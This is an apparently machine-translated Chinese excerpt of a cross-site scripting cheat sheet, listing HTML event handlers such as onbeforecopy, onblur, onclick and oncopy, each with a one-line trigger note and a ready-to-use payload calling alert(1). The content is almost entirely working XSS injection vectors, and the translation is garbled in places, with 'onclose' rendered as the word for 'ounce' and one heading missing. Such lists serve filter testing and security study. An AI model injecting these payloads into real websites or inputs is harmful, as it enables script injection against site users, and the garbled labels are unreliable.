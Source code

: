 #### **onbeforecopy**

要求您复制一段文本

```
<a onbeforecopy="alert(1)" contenteditable>test</a>
```

#### **onbeforecut**

要求您剪切一段文本

```
<a onbeforecut="alert(1)" contenteditable>test</a>
```

#### **onblur**

当元素失去焦点时激发

```
<xss onblur=alert(1) id=x tabindex=1 style=display:block>test</xss><input value=clickme>
```

#### **onchange**

需要更改值

```
<input onchange=alert(1) value=xss>
```

#### **onclick**

需要单击元素

```
<xss onclick="alert(1)" style=display:block>test</xss>
```

#### **盎司**

当对话框关闭时激发

```
<dialog open onclose=alert(1)><form method=dialog><button>XSS</button></form>
```

右键单击显示上下文菜单时触发

```
<xss oncontextmenu="alert(1)" style=display:block>test</xss>
```

#### **oncopy**

要求你复制一段文字

```
<xss oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
```
